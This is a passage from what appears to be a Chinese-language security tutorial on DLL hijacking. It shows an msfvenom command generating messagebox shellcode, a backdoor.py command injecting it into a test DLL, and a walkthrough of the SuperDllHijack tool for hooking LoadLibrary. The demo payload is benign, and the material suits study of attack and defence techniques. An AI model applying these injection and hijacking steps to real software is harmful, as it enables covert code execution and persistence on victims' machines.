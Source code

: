 `msfvenom -p windows/messagebox -f raw &gt;msg.bin`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015bbd09bdc4528535.png)

0x108+8 = 272个字节

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013da38165104df0c4.png)

不过除了shellcode还有跳转过程也需要字节，平衡栈等。

这里尝试注入:

```
./backdoor.py -f ./exeTest/TestDll.dll -s user_supplied_shellcode_threaded -U msg.bin -a
```

[![](https://p0.ssl.qhimg.com/t01d3e650c8623e4075.png)](https://p0.ssl.qhimg.com/t01d3e650c8623e4075.png)

[![](https://p1.ssl.qhimg.com/t01b9daa25b6e44b2d8.png)](https://p1.ssl.qhimg.com/t01b9daa25b6e44b2d8.png)

执行很成功,但是在替换加载的时候,发现计算器的确弹出来了,但是主程序却出错异常退出了。

> 这种方式就是暴力patch程序入口点，jmp shellcode，然后继续向下执行，很容易导致堆栈不平衡,从而导致程序错误，所以，效果不是很好, 期待2021.7月发布的新版，有空我也自己去尝试优化下，学学堆栈原理，如何去正确的patch。

### <a class="reference-link" name="0x3.3%20%E9%80%9A%E7%94%A8DLL%E5%8A%AB%E6%8C%81"></a>0x3.3 通用DLL劫持

这种方式可以不再需要导出DLL的相同功能接口，实现原理其实就是修改`LoadLibrary`的返回值,一般来说都是劫持`LoadLibraryW(L"mydll.dll");`,window默认都是转换为unicode,自己去跟一下也可以发现。

原理大概如下:

> exe —load—&gt; fakedlld.ll —&gt; execute shellcode
​ |执行完返回正确orgin.dll地址|
​ ——————————————————————

怎么实现这种效果?

使用这个工具:[SuperDllHijack](https://github.com/anhkgg/SuperDllHijack)

```
git clone https://github.com/anhkgg/SuperDllHijack.git
```

然后用vs加载其中的example部分就行了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f965735d281d6f59.png)

核心关键代码在这里,这里我们修改成如下:

[![](https://p3.ssl.qhimg.com/t01ef5455751483347b.png)](https://p3.ssl.qhimg.com/t01ef5455751483347b.png)
